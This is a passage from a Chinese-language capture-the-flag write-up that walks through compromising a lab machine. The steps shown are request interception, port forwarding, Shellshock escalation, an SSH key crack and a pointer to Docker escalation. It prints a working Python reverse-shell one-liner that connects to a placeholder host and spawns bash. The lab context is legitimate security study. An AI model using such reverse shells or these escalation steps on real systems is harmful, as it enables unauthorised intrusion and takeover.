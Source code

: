 转发到了 https://10.10.10.65/cgi-bin/stats....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUO5p6D1DeTicPPqvWEj5cgjtmsZT1C29seaftAovWgymuyWwibFnNEXFw/640?wx_fmt=png)

这里前面就知道不稳定外壳，我直接利用 BP 拦截注入了....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUxibDqxwbL1BCY1XibtbWhSCJ8gLEc1GQ1iaZbniaQ0OpMTw7icF43ucWCkw/640?wx_fmt=png)

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",端口));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

利用稳定外壳....shell

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUqD7ZThaGgGvyzcUtsErYhZquJFExG8ia1SM9c5ibla8sA3aRTfPwXLgw/640?wx_fmt=png)

可以看到，我是将端口都转发到 kali 本地，利用 Shellshock 漏洞进行提权... 但是提权需要在堡垒上进行 NC 监听获得外壳...

这里会出现非常多的不方便，需要继续转发到本地 kali 上做外壳....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUUEjjic9nRUm3WPiaH2DorS8kceGLXchaYHTKg1soiaQ16AR5XUanwauuQ/640?wx_fmt=png)

直接转发即可... 转发到了 6666 端口上...

当本地执行提权后，所有的流量都走端口转发到了我本地的机子上...

成功在本地获得反向外壳 www 低权用户....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUtxWwlhEHLDYnHn8DZ1F7dMxBia7N7Rf4noUkHqxiaxVRiavfG4iaoF1XHA/640?wx_fmt=png)

通过前面信息收集在 Dockerfile 获取的 root 密匙，用 python 启动 pty shell，然后 su 到 root.... 获得了 user_flag 信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUljSWGIHNWN8vuoWvtnz6rC5qsbE0D3eibVZHhHgvPQvu6PP5JBHYpSg/640?wx_fmt=png)

继续搜索隐藏目录，在本目录下找到. ssh 的目录，找到三个文件 authorized_keys，id_rsa 和 id_rsa.pub... 存在 RSA 密钥...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUoXaiazNdTKMOIaCiacxiaTIrjoOaaia3gR2xpvdfqKMPpyOibo9SibqiavLlg/640?wx_fmt=png)

保存到本地，进行破解... 获得了密码...（跳过了简单操作，讲很多次了）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUjiaX61vNM3ZF8rwPaGmTkbq233rB6ibdpehMh9SM98ia1T9u0IZaFJLyA/640?wx_fmt=png)

有密匙凭证 + 密码，直接 ssh 登陆... 直接获得了 spanishdancer 用户权限外壳...

这里就直接进入用户了，不会通过 waf 和堡垒机的限制了....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUsySXMWTBibpXbtYp7jw1fpW0OOzn2EQE7NZbMX6WLZyuwRVyHEeELxw/640?wx_fmt=png)

这里靶机用户是 docker 容器状态，又在 upload 时知道 Upload Image 图像转换器...

直接检查了 Docker 映像.... 发现 bash 映像可利用....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUP55IPfs5TN9kPlahC8Vufpswhd9hRT7f0Lydnee5VoETibGESq5llRw/640?wx_fmt=png)

```
https://fosterelli.co/privilege-escalation-via-docker.html
```
